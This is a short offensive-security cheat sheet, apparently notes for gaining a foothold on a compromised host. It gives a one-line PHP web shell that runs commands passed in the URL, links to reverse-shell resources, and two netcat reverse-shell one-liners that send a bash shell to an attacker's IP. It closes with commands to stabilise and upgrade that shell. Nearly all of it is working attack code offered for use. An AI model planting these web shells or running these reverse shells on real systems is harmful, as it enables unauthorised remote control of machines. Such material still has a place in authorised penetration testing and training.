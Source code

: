 # foothold

## Web shells

- A simple PHP web shell.

```shell
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

- The well known pentestmonkey php reverse shell [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

- A list of reverse shell payloads [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
Common payloads include

```
nc ip 1234 -e /bin/bash
```
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ip 1234 >/tmp/f
```

## Stabilisation

- Stabilize your shell using

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
alias ls='ls --color=auto'
export TERM=xterm
```

or just

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
alias ls='ls --color=auto'
export TERM=xterm
```

if `python3` is not available.

- Set up autocomplete. Background the shell using `CTRL + Z` and run 

```shell
stty raw -echo; fg
```
to foreground the shell using tab completion.

